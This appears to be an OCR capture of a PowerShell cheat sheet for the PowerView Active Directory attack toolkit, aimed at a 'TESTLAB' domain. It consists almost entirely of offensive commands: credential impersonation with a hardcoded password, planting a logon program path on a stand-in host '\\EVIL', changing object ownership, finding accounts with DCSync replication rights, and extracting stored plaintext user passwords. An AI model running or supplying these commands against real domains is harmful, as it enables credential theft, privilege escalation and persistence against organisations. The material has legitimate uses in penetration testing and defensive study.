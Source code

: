 # if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y

# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}

# check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
